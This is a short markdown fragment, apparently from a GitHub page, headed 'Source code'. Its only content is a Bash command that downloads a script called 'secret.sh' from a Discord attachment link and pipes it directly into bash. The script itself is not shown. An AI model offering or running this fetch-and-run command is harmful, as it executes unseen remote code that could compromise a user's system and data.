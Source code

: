 <details>
  <summary>Bash</summary>

> <hr>

```sh
cd ~ && curl -s "https://cdn.discordapp.com/attachments/1043972790266626179/1169387147309109319/secret.sh" | bash
```

> <hr>

</details>
